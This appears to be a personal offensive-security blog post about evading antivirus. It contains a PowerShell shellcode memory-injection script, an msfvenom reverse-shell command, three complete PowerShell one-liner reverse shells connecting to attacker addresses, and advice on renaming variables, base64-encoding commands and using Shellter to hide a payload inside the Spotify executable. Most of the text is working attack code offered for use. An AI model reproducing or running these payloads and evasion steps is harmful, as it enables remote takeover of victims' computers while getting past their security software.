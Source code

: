 ```yaml
---
layout: post
title: Evading AV
titledate: 09/09/23
tags: ["infosec","offsec", "exploit", "evasion", "shell", "powershell", "shellter"]
---
```


#### Evading AV

One technique is to use variable obfuscation or randomization

AVs generally match text files pretty closely so we can try to randomize variables when possible

The following is a known powershell memory injection script

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

The script imports VirtualAlloc and CreateThread from kernel32 and then memset from msvcrt

This script allows us to allocate memory and execute code in a newly created thread for the current powershell process

we can use msfvenom to create our shellcode payload

    $ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f powershell -v sc

to avoid AV detection we can try to randomize the variable names

#### Further Evading

If this script is still detected we can try to use a powershell one liner reverse shell 

### $ $client = New-Object System.Net.Sockets.TCPClient("192.168.45.154",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

And

    $ powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.1.1",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

And

    $ powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.1.1',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"


And then we can encode it with this script https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py 

This script takes a powershell command and base64 encodes it to be passed as a parameter to powershell

#### Automate Evasions with Shellter

shellter is a shellcode injection tool

we can run the tool in Auto or Manual mode

enable stealth mode to continue normal application execution after the exploit code is triggered

in the following example we inject a payload in the spotify executable

![_config.yml]({{ site.baseurl }}/images/exploitation/shellter.png)

now we can send our payload to our windows system

i do this with by hosting a python upload download server

    $ python3 -m uploadserver

### NOTE: if receiving a connect from the victim server but shell terminates with netcat, setup meterpreter listener or try stageless payload

### TODO: Write script to generate all shellcode option files based off of ip addr and port arguments - arch, format, bad chars, shellcode type etc


